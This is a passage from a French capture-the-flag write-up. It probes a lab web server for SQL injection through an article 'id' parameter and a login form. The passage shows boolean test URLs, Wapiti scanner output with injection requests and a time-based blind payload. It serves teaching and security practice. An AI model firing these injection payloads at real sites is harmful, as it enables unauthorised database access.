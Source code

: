 Les services ouverts sont pour le moins classiques mis à part qu'un administrateur éviterait d'exposer le MySQL et le RPC sur Internet.  

Le site "en clair" et celui sur HTTPS renvoient les même pages. Le HTTPS n'est pas vulnérable au bug *Heartbleed* (petit test histoire de, mais on en aurait probablement rien fait pour ce CTF).  

Dans les pages on trouve un lien vers /mail/ qui correspond à un *Roundcube* (un webmail dans la lignée de *Horde* et *SquirrelMail*).  

Dans les pages originales créées pour le site ou trouve un paramètre qui semble particulièrement réceptif à une possible injection SQL.  

Par exemple pour l'URL :

```plain
http://192.168.1.95/?id=3
```

on obtient un article titré "Praesent magna est".  

Si on rajoute un OR 1 :

```plain
http://192.168.1.95/?id=3%20or%201
```

alors tous les articles semblent retournés  

alors qu'avec un AND 1 :

```plain
http://192.168.1.95/?id=3%20and%201
```

on retrouve seulement le "Praesent magna est".  

pour terminer avec un AND 0 :

```plain
http://192.168.1.95/?id=3%20and%200
```

aucun article n'est renvoyé  

On lance tout de même *Wapiti* qui confirme la vulnérabilité et en trouve d'autres au passage :  

```plain
[+] Lancement du module sql
Injection MySQL dans http://192.168.1.95/?action=login via une injection dans le paramètre username
Evil request:
POST /?action=login HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/?action=login
Content-Type: application/x-www-form-urlencoded

username=%BF%27%22%28&password=letmein

Injection MySQL dans http://192.168.1.95/index.php?action=login via une injection dans le paramètre username
Evil request:
POST /index.php?action=login HTTP/1.1
Host: 192.168.1.95
Referer: http://192.168.1.95/index.php?action=login
Content-Type: application/x-www-form-urlencoded

username=%BF%27%22%28&password=letmein

[+] Lancement du module xss

[+] Lancement du module blindsql
Faille d'injection SQL en aveugle dans http://192.168.1.95/ via une injection dans le paramètre id
  Evil url: http://192.168.1.95/?id=sleep%287%29%231
```